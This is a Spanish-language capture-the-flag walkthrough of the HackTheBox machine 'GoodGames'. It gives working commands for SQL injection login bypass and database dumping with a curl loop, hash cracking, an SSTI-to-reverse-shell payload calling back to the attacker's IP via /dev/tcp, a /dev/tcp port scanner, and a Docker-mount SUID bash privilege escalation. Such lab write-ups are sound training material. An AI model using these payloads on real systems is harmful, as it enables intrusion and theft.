

# GOOD GAMES [HACKTHEBOX] / Easy
### (Fuzzing web con Wfuzz, Burpsuite, SQL injection, XSS, SSTI, Bash scripting, Python scripting, contenedor de Docker, monturas)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

En primer lugar, hacemos un escaneo con nmap después de comprobar la conexión con la máquina con `ping`:

```bash
nmap -p- --open -sS -sCV -T5 -n -Pn 10.10.11.130 -vvv -oN escaneo_nmap
```

Y nos salen estos puertos abiertos:


Vemos que también nos aparece un "host", así que vamos a incluirlo en /etc/hosts:


Si nos metemos en la web y exploramos un poco, vemos que solo hay una publicación donde hay algo publicado, en la ruta `http://goodgames.htb/blog/1`, pero, en mi caso, no creo que haya ninguna pista. Vamos a hacer fuzzing de directorios con wfuzz mientras encendemos el Burpsuite:

```bash
wfuzz -c --hh=9265 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://goodgames.htb/FUZZ
```

Si hacemos este escaneo nos encuentra los siguientes directorios:


Vamos a probar con /login, nos sale un error '405', que mediante este método no podemos acceder.


Vamos a buscar otra forma del panel de login. Si nos fijamos en la web principal, vemos que arriba a la derecha hay un botón con una silueta, si le pinchamos ya estamos en el panel:


Vamos a probar poniendo credenciales básicas como `admin@goodgames.htb` y  contraseña `test`, activamos el burpsuite y esto es lo que nos sale:


Parece que da error porque las credenciales no son correctas, vamos a probar con una sql iyection básica `' or 1=1-- -`. Nos aparece lo siguiente:


Si nos fijamos en la respuesta del servidor, parece que nos está logeando como admin, vamos a probar esto fuera del "repeater", para que lo podamos ver en la web:


Una vez que estamos dentro, si nos fijamos en los iconos de arriba a la derecha, vemos una ruedita como de configuración:


Si hacemos click vemos que nos redirige a `internal-administration.goodgames.htb/`, por lo que lo vamos a añadir al archivo hosts:


Si recargamos la página, vemos que ya aparece otro login, al ser otro login distinto, podemos probar a ver si nos muestra los datos de la base de datos.


Así que vamos a utilizar el Burpsuite con el login que si tenía SQL inyection para intentar listar las bases de datos que hay disponibles. Empezaremos diciéndole que nos liste las columnas que hay, si ponemos un número demasiado alto, no nos las mostrará, es decir, hay que probar con números bajos, vamos a probar 20 con el siguiente comando `' order by 20-- -`:


Vamos a fijarnos en la respuesta del servidor, más específicamente en el 'Content-Length', mientras probamos a averiguar las columnas. Probamos con 10 y no cambia nada, 5 y tampoco, pero si probamos con 4 vemos que cambia la cosa:


Ahora que sabemos el número total de columnas, vamos a intentar listarlas con el siguiente comando, en el que se aplica una selección de las columnas existentes:

```MySql
' union select 1,2,3,4-- -
```

Vemos que en la respuesta del servidor ya nos da una cookie de sesión, parece que nos ha logeado, vamos a filtrar en la respuesta por la palabra "Welcome", a ver que nos sale:


Si pongo un "test" donde puse el 4:


si intentamos un SSTI en este campo con `{{7*7}}`, vemos que no es vulnerable, pero vamos a probar a pedirle que nos muestre la base de datos que hay en uso cambiando el "test" por `database()`:


###### También podríamos haber utilizado el siguiente comando para que nos listase todas las bases de datos que hay disponibles, pero no sale nada nuevo:

```mysql
' union select 1,2,3,schema_name from information_schema.schemata-- -
```


Okey, ahora que sabemos que la base de datos se llama main, vamos a intentar listas las tablas que contiene:

```mysql
' union select 1,2,3,table_name from information_schema.tables-- -
```

Nos aparecen un montón:


Es bastante lioso, así que vamos a probar a añadir a la inyección `limit 0,1`, nos debería listar la primera, y si la modificamos por `limit 1,1`, nos debería listar la segunda, así sucesivamente:


Ahora que tenemos una forma de listar las tablas, vamos a automatizar este proceso. Como las peticiones de Burpsuite se tramitan por POST, vamos a utilizar curl utilizando un secuenciador para que vaya probando todos los números, de esta manera:

```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf")";done | grep "Welcome"
```

Aquí hacemos los siguiente:

1. Creamos una variable que almacena una secuencia de números del 0 al 100 [for i in $(seq 0 100);].
2. Usamos esa variable para que en pantalla nos muestre cada uno de los intentos con un mensaje [do echo "[+] Tabla número $i =]
3. En el resto del comando estamos utilizando curl con los siguientes parámetros:
	1. Parámetro "-s": significa 'silent mode', para hacer la enumeración silenciosamente.
	2. Parámetro "-X": nos deja especificar el formato de petición que haremos, en este caso ponemos que la haremos por 'POST'.
	3. Parámetro "--data": le indicamos los datos que queremos enviar como petición, que es la iyección sql.
4. Por último ponemos "; done" para terminar ese comando de la terminal.
5. Filtramos por la palabra "Welcome" para no ver el código entero.

Aun así lo vemos bastante feo, aunque nos saca todas las bases de datos:


Como se ve muy feo, lo podemos mejora con este comando, donde básicamente usamos expresiones regulares para ordenar y mostrar el resultado como queremos:
```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")";done
```

Y así es como se vería:


Eso serían todas las tablas, pero también podemos hacer que nos muestre solo las  tablas de la base de datos "main", que era la que más interés tenía, añadiendo lo siguiente a la inyección SQL:

```mySQL
where table_schema='main'
```


Nos lista 3 tablas, la que nos interesa es "user", así que se lo vamos a indicar modificando la inyección, que está contenida en el parámetro "--data" del curl:

```mySQL
email=' union select 1,2,3,column_name from information_schema.columns where table_schema='main' and table_name='user' limit $i,1-- -&password=fadsf
```

Y nos lista esto:


Ahora vamos a decirle a la base de datos que queremos listar las filas "name", "email" y "password", en ese orden, para ello editaremos toda la inyección por esto:

```mySQL
email=' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=fadsf
```

Y nos lista sólo una credencial:


Vamos a intentar descifrar ese hash con johntheripper, para ello metemos el hash en un archivo con el comando `echo '2b22337f218b2d82dfc3b6f77e7cb8ec' > hash` y se lo especificamos a johntheripper con este comando, donde utilizamos el parámetro "--format=Raw-MD5" para especificarle el tipo de hash: 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash 
```

Nos saca esto:


Ahora que tenemos un usuario y una contraseña,vemos que ya nos deja entrar al panel de "internal-administration.goodgames.htb/index". Si nos vamos a 'settings' dentro de la web, nos aparece lo siguiente:


Vamos a probar a poner alguna cosa como 'test':


Nos imprime en pantalla lo que escribimos, así que podríamos probar con alguna inyección más, como por ejemplo XSS:


Y nos salta esto, lo que significa que es vulnerable a XSS:


También podríamos haber probado con un SSTI (Server Side Template Inyection), poniendo por ejemplo `{{7*7}}` y también habría funcionado:


Como tiene SSTI, vamos a buscar en github.com/swisskyrepo/PayloadsAllTheThings
para ver la inyección que tenemos que usar para tener un RCE (Remote Code Execution): 


Cambiamos el comando "id" por `bash -c "exec bash -i &>/dev/tcp/10.10.14.6/443 <&1"` y, después de ponernos en escucha con `nc -nlvp 443`, le damos a guardar cambios:


## Escapada del contenedor docker

Ya somos root, pero no acaba aquí la cosa ya que si hacemos un `hostname -I`, vemos que la ip no concuerda con la de la máquina, lo que quiere decir que estamos ante un contenedor de docker:


No obstante, si vamos a /home/, vemos que hay un usuario llamado "augustus", si nos metemos en su perfil, podremos leer la flag de user.

Con el comando `route -n`, podemos ver la ip con la que se comunica el docker y la máquina víctima, que en nuestro caso es la `172.19.0.1`:


Sabiendo esto, podemos hacer un `ping -c 1 172.19.0.1` desde el contenedor de docker para ver si tenemos conexión con la máquina:


Ahora bien, como podemos salir de este contenedor? Si nos fijamos en el directorio /home, vemos que la carpeta se llama augustus, pero no hay ningún usuario así en el sistema actual, ya que si buscamos en /etc/passwd, solo existe el usuario root. Vamos a hacer un `ls -la` en /home:


el dueño de la carpeta "augustus" es '1000', cosa que es rara, esto quiere decir que esta carpeta es una montura, es decir, que hay una especie de acceso directo a la misma carpeta en la máquina víctima. 
Necesitamos salir de este contenedor, si recordamos el escaneo de nmap del principio, nos acordamos de que solo estaba abierto el puerto 80, vamos a ver si hay algún puerto abierto más. En el contenedor de docker no podemos utilizar nmap, sudo ni vim, ya que no están instalados, así que podemos intentar lo siguiente:

1. Enviar una cadena vacía mediante `echo` para ver si un puerto está abierto. Si el código de respuesta es correcto (0), es que el puerto está abierto, pero si el código es (1), es que el puerto está cerrado:
El puerto 80 está abierto


El puerto 24 está cerrado


2. Probar con el puerto de ssh (22), que es de los más comunes, a ver si hay suerte y está abierto:

El puerto 22 está abierto


3. Intentar entrar por ssh probando las contraseñas recicladas, es decir, antes nos encontramos la contraseña `superadministrator`, podemos probar la misma pero con el usuario `augustus`. En este caso había poca seguridad y entramos:


4. Si todo esto no hubiera funcionado podemos crear el siguiente script en bash:

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!]Saliendo...\n"
	tput cnorm; exit 1 
}

# Ctrl+C
trap ctrl_c INT 

tput civis
for port in $(seq 1 65535); do

	timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Puerto $port Abierto" &

done; wait
tput cnorm
```

 5. Lo encodeamos en base64 y lo copiamos a la clipboard para que sea más fácil pasarlo a la máquina víctima:

```bash
base64 -w 0 portScan.sh | xclip -sel clip
```

6. Lo decodeamos y lo exportamos al archivo escaneo_puertos.sh en la máquina víctima:


7. Ahora simplemente lee damos permisos de ejecución (`chmod +x` ) y lo ejecutamos:


Y de esta manera también vemos que el puerto 22 está abierto.

## Escalada de Privilegios a root

Ahora nos queda ser root en la máquina víctima. Vamos a probar con el comando para buscar archivos con permisos SUID con el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

No encontramos nada, tampoco en /etc/crontab, ni con `sudo -l`, que podríamos hacer para escalar privilegios? Muy fácil. Si nos acordamos, tenemos una carpeta montada en el contenedor de docker, en el cual somos root, por lo tanto vamos a hacer lo siguiente:

1. Hacemos una copia del archivo /bin/bash en /home/augustus como el usuario augustus:


2. Nos salimos de ssh para ser root y utilizamos el comando `chown root:root bash` para cambiar el dueño del archivo bash a root:


4. Vamos a darle a ese archivo permisos SUID, de forma que, como augustus, podamos ejecutarlo con permisos de root:

```bash
chmod 4755 bash
```

4. Volvemos a entrar en ssh y ya podemos ejecutar el archivo bash con el parámetro "-p" para ser root:



Ya somos root :). En mi caso cambié la contraseña de root por la misma que augustus y puse a augustus en el grupo de root para poder cambiar a root sin necesidad de ese archivo bash pero no hace falta. Nos metemos en /root y le hacemos un cat a la flag de root.


# ./ROOTED

